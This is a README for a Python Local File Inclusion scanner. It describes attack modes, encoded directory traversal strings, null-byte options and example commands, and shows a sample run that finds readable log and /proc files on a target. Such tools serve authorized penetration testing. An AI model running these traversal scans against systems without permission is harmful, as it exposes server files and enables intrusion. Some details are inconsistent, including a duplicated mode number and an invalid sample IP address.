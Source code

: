 # fi-cyberspace-scan

Local File Inclusion CLI tool written in Python to speed up LFI checks. Similar to using Burp or ZAP, but less bulky and resource intensive. Plus it's in color for easy readability. File lists are included in the app, ranging from basic to verbose. Set different **Cyber-Attack Modes**, unique **Encoded Path Types** or turn on **Deep Directory Traversal** or **NULL Bytes**.

Valid LFI results are based on HTTP response codes, then HTTP response sizes. A non-200 will result in a failure, then a reflected byte size different from a pre-tested baseline will result in a valid find. Valid finds will be displayed in terminal output.

Before executing the attack, you'll be prompted with the set parameters, then can either confirm & execute OR exit the program. All parameters are preset besides **Target**. Adding these flags will update the set parameters, prior to execution.

___

## Usage:

```
-----------------------------Usage-------------------------------
Target URL:            -t --target
   Set the full HTTP Path/URI in which you'd like to test.
   LFI string will be appended to whatever you set as this argument.

Cyber-Attack Modes:    -m --mode  
   3: ICE-Breaker            Hardwired LFI Validator with Custom Encoded path types. Deepspace & %00 Disabled.
   2: Mole-IX                Intermediate attack list for even the best Cyberspace Operators.
   3: Kuang-Grade-Mark-11    Top notch verbose attack. Fires off a large list of interesting files.
   4: WIN-Construct          Targeted Windows OS attack. Includes common Windows file list.

Path Type:             -p --path 
   Set the directory traversal path type if it's encoded.
   Set as ONE instance in single quotes ('..%2f' , '..\\' , '%%32%65' ,etc) 
   Deafult is set to: ../ 

Deep Space Traversal:  -d --deepspace 
   Traverse deep within the filesystem at 9 directories deep.
   Without this flag set, the default 5 deep will run.
   Boolean flag. Default is FALSE.

Null-Byte:             -n --nullbyte 
   Appends a null-byte %00 to every request.
   Boolean flag. Default is FALSE.

Examples:
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?=
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m ICE-Breaker 
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m 4 -p '..252f' -n 
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m kuang-grade-mark-11 -d
-----------------------------------------------------------------
```
___

## Example

Here is a sample output for the [Kuang-Grade-Mark-11](http://www.antonraubenweiss.com/gibson/history/v1/glossary.html) mode, which tests a large directory list. In this case there are valid hits in the root **/** and 4 directories deep **../../../../** You could initially run the **ICE-Breaker** to verify valid path types.

```
root@case:/# python fi-cyberspace-scan.py -t http://172.28.1227.5/cyber.php?space= -m 3
-----------------------------------------------------------------
'___ *  .    '   \|/     *   .   '      + .----. .  '  -*-    
|===|     ' __   -*-  FI Cyberspace-Scan  ||'''|_       ' ___ 
|= =|__'  _|==|_ /|\  ___     * .   __   _||= =|.| *   __|===|
|= =|::| |.|:|==|____|= =| .   ____|==| |::|= =|.|__ '|::|= =|
|=|=|::|_|.|:|==| :: |_.-`-.__|----|==|_|::|=|=|.|::|_|::|= =|
-----------------------Hardwired Options-------------------------
TARGET URL                   : http://172.28.128.3/turing-bolo/bolo.php?bolo=
CYBER ATTACK MODE            : Kuang-Grade-Mark-11
PATH TYPE                    : ../
DEEP SPACE TRAVERSAL         : False
NULL-BYTE %00                : False
-----------------------------------------------------------------
DO NOT USE AGAINST UNAUTHORIZED INTRUSION COUNTERMEASURES ELECTRONICS
Execute Cyberspace Run? [Y/n]: 

-----------------------------------------------------------------
It seems  448  is the common reflected byte size.
Digging into unique reflection sizes.
-----------------------------------------------------------------
[+] - Something interesting found with /var/log/messages in 
     --Path:  /
     --Path:  ../../../../
[+] - Something interesting found with var/log/mail.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/maillog
[+] - Something interesting found with var/log/apache2/access.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/postgresql/postgresql-10-main.log
[+] - Something interesting found with var/log/apache2/error.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/httpd/access_log
[-] - Nothing found in var/log/httpd/error.log
[+] - Something interesting found with proc/self/cmdline in 
     --Path:  /
     --Path:  ../../../../
[+] - Something interesting found with proc/self/stat in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/apache2/error_log
[-] - Nothing found in var/log/httpd/access.log

---snip---
```
